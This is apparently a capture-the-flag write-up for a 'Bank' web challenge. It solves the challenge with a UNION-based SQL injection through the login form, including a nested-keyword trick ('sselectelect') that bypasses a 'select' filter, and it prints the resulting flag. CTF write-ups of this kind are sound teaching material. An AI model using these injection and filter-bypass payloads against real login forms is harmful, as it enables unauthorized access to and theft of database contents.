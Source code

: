 # Bank
> This is a bank. I hate php very much. Here

## About the Challenge
In the website there is a login form like this


[Image extracted text: Login
Bank Database CTF
Try looking in the
table. Columns:
value
Username:
Password
Login
flags
flag.]


## How to Solve?
This is SQL injection chall and we need to get the flag from the database, luckily the website showing us the query and the result on the website. For example I inputted `test/test` as the username and the password


[Image extracted text: Login
Bank Database CTF
Try looking in the flags table. Columns:
value
Username:
Password:
Login
SELECT
FROM users WHERE username='test' AND password-'test:
Query Results
flag;]


And we know the flag was located on `flags` table and in that table there are 2 columns. `flag` and `value` So we can input the payload like this

```
Username: ' union select group_concat(flag, value),2,3 from flags-- -
Password: 
```

Because there is a filter on the `select` keyword, we can bypass that filter by using `selselectect`. And then read the flag on `flags` table. This is the final payload.

```
' union sselectelect group_concat(flag, value),2,3 from flags-- -
```


[Image extracted text: Login
Bank Database CTF
Try looking in the flags table
Columns:
value
Usernamez
Password:
Login
SELECT
FROM users WHERE username=" union select group_concat(flag; value),2,3 from
AND password='d;
Query Results
Canadastole too many colors from the US,Chall has nothing to do with slim shadyflag {3min3m_kind@_waShed},Chinathe spirit of Mao lives on in the non-GMO milkMexicotoo similar to italyUSAgets the patriotism flowing
flag.
flags--]


```
flag{3min3m_kind@_wa$hed}
```